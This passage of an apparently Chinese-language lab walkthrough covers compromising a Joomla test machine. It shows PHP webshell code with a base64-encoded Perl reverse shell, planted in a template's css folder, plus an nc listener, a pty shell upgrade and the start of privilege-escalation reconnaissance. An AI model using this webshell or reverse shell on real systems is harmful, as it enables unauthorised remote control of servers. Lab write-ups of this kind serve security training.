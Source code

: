 ```php
$yourport = '1234';
$usedb = array('perl'=>'perl','c'=>'c');
$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj".
"aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR".
"hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT".
"sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI".
"kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi".
"KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl".
"OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw==";
cf('/tmp/.bc',$back_connect);
$res = execute(which('perl')." /tmp/.bc $yourip $yourport &");
?>
```

![26.png](https://s2.loli.net/2024/07/22/TmEt385bGBezwWj.png)

根据 joomla 的特性，模块会单独放在一个文件夹  /templates/ 中，而beez3模块就在 /templates/beez3/ 里面，刚才创建的webshell又在css目录下，所以webshell的路径为：

```
http://192.168.253.138/templates/beez3/css/webshell.php
```

由于php代码执行后的功能是反弹 shell 到 kali ，所以需要kali先开启1234端口的nc监听。

```
nc -lvvp 1234
```

![27.png](https://s2.loli.net/2024/07/22/7xr2ZEnAIe5UWFu.png)

![28.png](https://s2.loli.net/2024/07/22/FnSuLNiK6f1vJl7.png)

![29.png](https://s2.loli.net/2024/07/22/n1mj5yVBt4pzQgE.png)

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![30.png](https://s2.loli.net/2024/07/22/KIfWPDX6rqkaCpb.png)

##### ④Linux提权

###### **『`确定操作系统信息` 』**

此处无法使用suid和git提权，先查看操作系统版本信息寻找提权突破口。

```
cat /etc/issue			查看操作系统的发行版本
cat /proc/version		查看操作系统的内核版本
```
